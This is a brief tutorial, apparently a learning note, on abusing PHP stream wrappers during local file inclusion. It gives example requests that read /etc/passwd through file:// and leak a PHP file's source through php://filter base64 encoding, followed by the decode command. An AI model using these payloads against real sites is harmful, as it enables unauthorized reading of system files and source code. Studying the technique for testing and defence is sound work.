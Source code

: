 The wrappers that we use are made on php.

Wrappers "involves" packets on different protocols for work on different places of the system for example 

We use it when we cannot see some file even if the site are vulnerable for example to local file inclusion (LFI) 

There are a lot of wrappers

## WRAPPER FILE:##
```
one of them are :
localhost/example.php?file:///etc/passwd
```
## FILTER: ##
This works when we cannot se the content of a file, imagine that we have a file 
```
<?php
   system('whoami') //this is a comment
?>
```

if you point to that webiste you will see www-data but you wont be able to watch the code, or other things behind of this script.

We only see the output of this script:
```
www-data
```
How can we see all ?

We can do a filter on base64 like this
```
localhost/example.php?file=php://filter/convert.base64-encode/resource=example2.php
```

Now we cant see  www-data, we see this

```
PD9waHAKICAgc3lzdGVtKCd3aG9hbWknKSAvL3RoaXMgaXMgYSBjb21tZW50Cj8+Cg==
```
To decode this we use :

echo (shows on the console something) 
-d (decode)

```
echo "PD9waHAKICAgc3lzdGVtKCd3aG9hbWknKSAvL3RoaXMgaXMgYSBjb21tZW50Cj8+Cg==" | base64 -d; echo
```

This is the result of decoding it. As you can see, we see the script and we can even see the comments of the code.

```
<?php
   system('whoami') //this is a comment
?>

```